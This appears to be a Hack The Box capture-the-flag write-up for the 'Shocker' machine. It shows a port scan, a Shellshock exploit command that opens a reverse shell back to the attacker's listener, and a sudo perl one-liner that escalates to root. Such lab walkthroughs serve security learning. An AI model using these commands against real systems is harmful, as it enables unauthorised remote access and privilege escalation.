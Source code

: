 ```yaml
---
layout: post
title:  "HTB Shocker Machine Writeup"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```

# Description
Shellshock was another basic machine that kind of gave away the vectors for each step with ease.
# Nmap scan
```
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| 256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_ 256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
No exact OS matches for host (If you know what OS is running on it
```

# Initial shell
As the box name implies, this box probably involves shellshock. A directory bruteforce reveals very little, only a 'cgi-bin' directory. Searchsploit search for shellshock comes up with:
```Apache mod_cgi = 'shellshock' Remote Command Injection | exploits/linux/remote/34900.py'```
Reading the documentation / exploit, we can figure out how to supply it with the arguments we need to yield a shell.
```
python 34900.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.5 lport=1337 pages=/cgi-bin/user.sh
```
Running the above gains us a low privileged shell and we can collect the user.txt flag.
# Privilege escalation
A simple 'sudo -l' check reveals our privesc vector. 
```(root) NOPASSWD: /usr/bin/perl```
this tells us we can run perl as root without supplying a password, easy. 
```
10.10.10.56> sudo perl -e 'exec "/bin/bash";'
10.10.10.56> id
uid=0(root) gid=0(root) groups=0(root)
```
And there we go full privileges with a simple perl shell call.

